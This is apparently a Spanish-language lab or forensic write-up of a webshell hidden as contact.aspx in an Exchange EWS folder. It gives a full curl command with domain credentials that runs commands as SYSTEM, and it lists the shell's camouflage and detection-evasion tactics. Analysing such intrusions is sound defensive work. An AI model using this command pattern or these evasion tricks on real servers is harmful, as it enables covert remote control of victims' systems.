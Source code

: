 5. **Eliminación de Archivos Temporales**
   ```csharp
   // Limpieza de archivos subidos/descargados
   File.Delete(tempFilePath);
   ```

**Flujo de Uso del Webshell:**

```bash
# Ejemplo: Ejecutar comando whoami
curl --http1.1 --ntlm -u 'boombox\gosta:d0ntGoCH4$ingW8trfalls' \
     -k -X POST \
     --data "pro=cmd.exe" \
     --data "cmd=whoami" \
     https://10.1.0.6/ews/contact.aspx
```

**Parámetros:**
- `--http1.1`: Forzar HTTP/1.1 (compatibilidad)
- `--ntlm`: Usar autenticación NTLM
- `-u 'boombox\gosta:...'`: Credenciales de dominio
- `-k`: Ignorar errores de certificado SSL
- `--data "pro=cmd.exe"`: Programa a ejecutar
- `--data "cmd=whoami"`: Comando a pasar al programa

**Respuesta:**
```
nt authority\system
```

(El webshell ejecuta como SYSTEM porque IIS/Exchange típicamente opera bajo este contexto)

#### Camuflaje y Evasión

**1. Nombre del Archivo: contact.aspx**
- Nombre genérico que podría ser legítimo en un servidor Exchange
- No levanta sospechas al revisar listados de archivos
- Similar a otros archivos en el directorio EWS (auth.aspx, default.aspx, etc.)

**2. Ubicación Estratégica**
```
\Program Files\Microsoft\Exchange Server\V15\ClientAccess\exchweb\ews\
```
- Directorio que legítimamente contiene archivos .aspx
- Mezclado con decenas de otros archivos ASP.NET
- Difícil de identificar sin análisis de contenido

**3. Autenticación Legítima**
- Requiere credenciales válidas de dominio
- No se puede acceder sin autenticación
- Escaneos automatizados sin credenciales no lo detectarán como webshell

**4. Sin Indicadores Obvios**
- No contiene strings típicos de webshells (ej: "c99", "r57", "shell", etc.)
- Código ofuscado o con variables con nombres legítimos
- Funciona exactamente como componente de Exchange desde perspectiva de red
